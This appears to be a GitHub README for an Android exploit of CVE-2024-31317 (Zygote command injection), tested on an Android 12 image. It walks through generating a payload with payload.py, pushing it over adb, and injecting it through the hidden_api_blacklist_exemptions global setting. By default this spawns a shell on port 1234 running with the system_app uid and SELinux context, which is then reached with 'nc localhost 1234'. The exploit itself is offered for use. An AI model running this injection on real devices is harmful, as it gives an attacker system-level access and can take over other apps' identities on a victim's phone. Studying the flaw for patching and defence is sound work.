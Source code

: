 # Zygote Injection (CVE-2024-31317)

This is an exploit for CVE-2024-31317. It allows passing arbitrary commands to the zygote process.
This effectively allows running as any other app or system server under any selinux policy we want.
The only restriction is zygote does not luanch processess as root.

This exploit is tested on android 12 ingots2 image.

Based on: https://rtx.meta.security/exploitation/2024/06/03/Android-Zygote-injection.html

## Using Exploit

Adjust the arguments you want to send to zygote in `payload.py` in the `args` variable.

Then run:
```sh
python payload.py
```

To generate a file called payload which contains a settings value which will cause command injection.


Use adb to push the payload to the device:
```sh
adb push payload /data/local/tmp
```

Then trigger the command injection exploit:
```sh
settings put global hidden_api_blacklist_exemptions "$(cat /data/local/tmp/payload)"
```


The default arguments spawn a shell listening on port 1234 running as a `system_app` uid and selinux context.

Connect to the shell using the command:
```sh
nc localhost 1234
```
